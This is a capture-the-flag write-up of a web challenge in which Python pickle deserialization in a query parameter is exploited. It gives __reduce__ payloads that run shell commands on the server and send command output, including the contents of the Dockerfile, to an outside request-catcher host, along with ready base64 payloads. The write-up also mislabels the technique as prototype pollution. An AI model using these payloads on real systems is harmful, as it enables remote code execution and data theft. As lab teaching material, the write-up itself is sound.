

# Love_letter

**Points:** 500  
**Category:** Web  
**Author:** benzo

## Chalenge Description:

i made this goofy love letter website. it is not secure and should not be used in production

## HANDOUT

### Website:

http://academy.ehax.in:8080/


## Overview of challenge

We have been provided with a website through which we can send a post request to the serve consisting of name and message which the server sends us back with the name and message.

## initial analysis

Since, the website involves sending message and displaying it in the next window my first guess was that it can be sstl so I tried sstl injection using the given testing image

to gather information about the server side code I checked the option route of the website



But it showed cloudflare not what I wanted to investigate further I researched the 404 error page for finding out the webserver.


and with quick google image search of it's 404 page found out that it's a flare web app.

And then I tried doing sstl injection


But it didn't work

Then I went to burpsuite and analysed the request being sent

The data was sent to /submit route to server and was redirect to /muaah with a query parameter consisting of some data in base 64 encoded
| Submit route | Muaah route |
|------------- | ------------- |
| |  |

The muaah rooute was like this

`http://academy.ehax.in:8080/letter?muaah=gASVRQAAAAAAAAB9lCiMBG5hbWWUjAptYXJrdXBzYWZllIwGTWFya3VwlJOUjAVyYW1hbpSFlIGUjAdtZXNzYWdllGgEjAJoaZSFlIGUdS4=`

Here it consisted of base 64 data which on translating to ascii gave:

`\x80\x04\x95E\x00\x00\x00\x00\x00\x00\x00}\x94(\x8C\x04name\x94\x8C\nmarkupsafe\x94\x8C\x06Markup\x94\x93\x94\x8C\x05raman\x94\x85\x94\x81\x94\x8C\x07message\x94h\x04\x8C\x02hi\x94\x85\x94\x81\x94u.`

It consisted of the name being sent and the message I tried changing the name , message here to see what happens to the response but instead I was met with an invalid message webpage.

Left with no option to figure out what this encoding was I ask LLM about it and it told me that this it is pickle serialised python object.

Serialization is the process of converting a Python object into a byte stream, which is also called pickling and is handled by the pickle module in Python. Deserialization, or unpickling, is the reverse process of converting the byte stream back into the original Python object. This allows Python objects to be stored in a file, sent over a network, or reconstructed later.

So this serialised python encoded to base 64 was the query in muah so we need to develop a payload for it.

## Solution Walkthrough

### researching about the exploit

Now as we have done our initial analysis and found out what exploit the webpage requires it time for researching about prototype pollution

I found these resources on the prototype pollution

[Portswigger prototype pollution](https://portswigger.net/web-security/prototype-pollution)

[Python pickle payload generation in depth](https://intoli.com/blog/dangerous-pickles/)

This resource above was a amazing blog which even taught about the assembly involved in the pickle and create yourself a pickle dump object without dumping any object

[Pickle payload generation](https://leapcell.medium.com/hacking-with-pickle-python-deserialization-attacks-explained-a43d5458a0fe)

After reading these resources I got to know that pickle modeule is very common for serialising python objects and dumping it to other files but this module is not safe to use on python's official picklke documentation it's written in bold letter to not to unpickle data received from an untrusted or unauthenticated source.


The way to inject malicious code through pickle is that we create an python class and init create an `__reduce__ ` method this method would be called only when our data is unpickled

```python
import pickle
import os

# Construct malicious code
class Malicious:
    def __reduce__(self):
        return (os.system, ('echo Hacked!',))

# Serialize the malicious object
malicious_data = pickle.dumps(Malicious())
# Execute malicious code during deserialization
pickle.loads(malicious_data)

```

[source](https://leapcell.medium.com/hacking-with-pickle-python-deserialization-attacks-explained-a43d5458a0fe)

So using this I can inject any payload on the server

### creating the payload

using the above code

Now I needed to access the file directory and get the results to my self with the request for this I planed to use request cather website

which is a website that can be used to catch links here is the link for it

https://requestcatcher.com/

I create the following payload and send it as pickled base 64 data to website

**Use your own request catcher url here below:**

```python
class RCE:
    def __reduce__(self):
        cmd = "curl -X POST -d 'Hello World!' https://skjeks.requestcatcher.com/test"
        return os.system, (cmd,)
```

But this payload though was working offline when unpickled. But it was not working on the website.

At this moment I was just about to give up but I asked tushar bhaiya about the same and he told me that there is a posibility that curl might not be installed on the server running the webpage and hinted me to use something that comes preinstalled with the webserver

Since I had already research what webserver it was using I tried using flask requests and it worked:

```python
import pickle
import os
import base64


class RCE:
    def __reduce__(self):
        cmd = "python3 -c \"import os;import requests;requests.get(f'https://skjeks.requestcatcher.com/')\""
        return os.system, (cmd,)

payloadpickle.dumps(RCE())
base64.b64encode(payload)
```

And I got this string :

`gASVdQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFpweXRob24zIC1jICJpbXBvcnQgb3M7aW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLmdldChmJ2h0dHBzOi8vc2tqZWtzLnJlcXVlc3RjYXRjaGVyLmNvbS8nKSKUhZRSlC4=`

which I was able to catch when through muaah route


Finally my payload worked thanks to help of tushar bhaiya 🎉🥳

Now I needed to get terminal commands output to be sent through request catcher so I tried this payload for the same

```python
class RCE2:
    def __reduce__(self):
        cmd = "python3 -c \"import os;import requests;requests.get(f'https://skjeks.requestcatcher.com/{os.popen('ls').read()}')\""
        return os.system, (cmd,)
```

But this url was not working I was not recieving any request related to same after trying a different ways thinking that ls might not be in the webserver including `echo *` etc.

But none worked so I again turned for help from tushar bhaiya I contacted them and got to know that the data consisting of\n and other charcter might cause problem on being sent through request catcher for which he suggest to me send the request through post request

For which I created the following payload

```python
class RCE2:
    def __reduce__(self):
        cmd = "python3 -c \"import os;import requests;requests.post(f'https://skjeks.requestcatcher.com/',data={1:os.popen('ls').read()})\""
        return os.system, (cmd,)

```


Now by trial and error I found out that the flag was in DockerFile

So our final payload looks like:

```python
import pickle
import os
import base64


class RCE2:
    def __reduce__(self):
        cmd = "python3 -c \"import os;import requests;requests.post(f'https://skjeks.requestcatcher.com/',data={1:os.popen('cat Dockerfile').read()})\""
        return os.system, (cmd,)


payload=pickle.dumps(RCE2())
base64.b64encode(payload)

```

payload:

`gASVoQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjIZweXRob24zIC1jICJpbXBvcnQgb3M7aW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLnBvc3QoZidodHRwczovL3NramVrcy5yZXF1ZXN0Y2F0Y2hlci5jb20vJyxkYXRhPXsxOm9zLnBvcGVuKCdjYXQgRG9ja2VyZmlsZScpLnJlYWQoKX0pIpSFlFKULg==`

and we got out flag

## flag found


EHAX{p1ckl3_1s_n0t_s3cur3_4ft3r_4ll}
